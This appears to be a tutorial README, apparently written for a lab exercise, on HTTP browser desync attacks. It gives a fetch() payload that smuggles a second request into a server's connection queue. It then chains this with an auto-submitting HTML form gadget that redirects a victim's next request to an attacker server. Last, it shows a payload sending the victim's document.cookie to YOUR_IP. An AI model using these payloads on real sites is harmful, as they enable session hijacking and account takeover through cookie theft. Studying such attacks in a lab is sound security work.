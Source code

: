 # HTTP Browser Desync Attack

### In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.

### This attack occurs in two steps:

#### 1) The initial request, appearing legitimate, is intended to disrupt the user request queue by introducing an arbitrary request. 

#### 2) Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.

### Straightforward payload example:

fetch('http://MACHINE_IP:5000/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})

### Write this JavaScript Payload in your browser command line that you can write JS

### Command breakdown:

#### 1) http://MACHINE_IP = This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.

#### 2) { method: 'POST' } = The method parameter specifies the HTTP method for the request. Here, it's set to 'POST'.

#### 3) { body: 'GET /redirect HTTP/1.1\r\nFoo: x' } = In the body, there is the second request that is going to be injected into the queue.

#### 4) { mode: 'cors' } = This flag triggers an error when visiting the 404 web page and avoids following the redirect.

# Browser Desync exploit chaining XSS

### One potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.

### Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim. 

### We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

<>form id="btn" action="http://MACHINE_NAME.COM/"
    method="POST"
    enctype="text/plain">
<textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
<button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>

### We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.

### Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.

### To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

### To do so, we can set up a rogue server by serving a route with a malicious payload like fetch('http://YOUR_IP/' + document.cookie);
